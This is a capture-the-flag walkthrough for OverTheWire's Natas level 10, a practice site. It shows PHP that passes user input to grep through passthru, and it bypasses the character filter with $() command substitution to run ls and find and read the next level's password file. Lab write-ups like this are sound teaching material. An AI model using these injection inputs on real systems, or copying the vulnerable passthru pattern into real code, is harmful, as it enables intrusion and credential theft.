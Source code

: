 ## Natas Level 10

- URL: http://natas10.natas.labs.overthewire.org

- Open the website
- Check the source code
```
    <pre>
        <?
        $key = "";

        if(array_key_exists("needle", $_REQUEST)) {
            $key = $_REQUEST["needle"];
        }

        if($key != "") {
            if(preg_match('/[;|&]/',$key)) {
                print "Input contains an illegal character!";
            } else {
                passthru("grep -i $key dictionary.txt");
            }
        }
        ?>
    </pre>
```

- Since the characters `; | &` are blocked we have to try something different

- We can use substitution in commands `$()` to try to bypass the filter

- Enter the search term `$ (ls)` and we get some output
```
    index-source.html:<html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    ...
```

- Find the file with the natas11 password
- `$(find / -name natas11 2>/dev/null) -v`

```
    >! /etc/natas_webpass/natas11:[Level 11 Password]
    dictionary.txt:
    dictionary.txt:African
    dictionary.txt:Africans
    dictionary.txt:Allah
    ...
```

- The resulting command would be `grep path_to_file -v`
- The -v is there to show us the lines that did not much along with the path at the top

- The password is at the end of the filename